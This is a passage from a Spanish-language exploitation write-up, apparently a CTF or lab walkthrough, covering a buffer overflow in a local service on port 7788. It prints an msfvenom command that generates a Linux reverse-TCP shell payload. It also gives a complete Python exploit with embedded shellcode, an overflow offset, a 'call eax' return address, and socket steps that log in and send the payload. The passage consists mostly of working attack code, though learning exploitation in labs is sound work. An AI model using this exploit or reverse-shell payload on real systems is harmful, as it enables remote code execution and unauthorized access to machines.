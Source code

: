##### Generando el shellcode

Para genera el shellcode usé este comando:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -b '\x00\x0a\x0d' -f c
```

> En -b quité los BadChars que son más comunes

##### Generando el exploit

Sólo queda crear un script que se conecte al puerto interno `7788`, ponga el ID, elija la opción 3 e inserte el payload que acabamos de generar:

```py
from struct import pack
import socket

# Insertar tu payload
shellcode =(b"\xdb\xd9\xbe\x39\x9b\xff\x1e\xd9\x74\x24\xf4\x5d\x29\xc9"
b"\xb1\x12\x31\x75\x17\x83\xc5\x04\x03\x4c\x88\x1d\xeb\x9f"
b"\x75\x16\xf7\x8c\xca\x8a\x92\x30\x44\xcd\xd3\x52\x9b\x8e"
b"\x87\xc3\x93\xb0\x6a\x73\x9a\xb7\x8d\x1b\xdd\xe0\x7c\xf0"
b"\xb5\xf2\x80\x02\x94\x7a\x61\xba\x7e\x2d\x33\xe9\xcd\xce"
b"\x3a\xec\xff\x51\x6e\x86\x91\x7e\xfc\x3e\x06\xae\x2d\xdc"
b"\xbf\x39\xd2\x72\x13\xb3\xf4\xc2\x98\x0e\x76")

offset = 168

# La dirección de "call eax" tiene que estar en Little Endian
payload = shellcode + b"A" * (offset - len(shellcode)) + pack("<L", 0x08048563) + b"\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 7788))

# Recibimos el banner
s.recv(1024)

# Enviamos el ID
id = b"48093572\n"
s.send(id)

# Recibimos: Login Validated
s.recv(1024)

# Recibimos el menú
s.recv(1024)

# Elegimos report
s.send(b"3\n")

# Recibimos el menú de report
s.recv(1024)

# Enviamos el payload
s.send(payload)
```

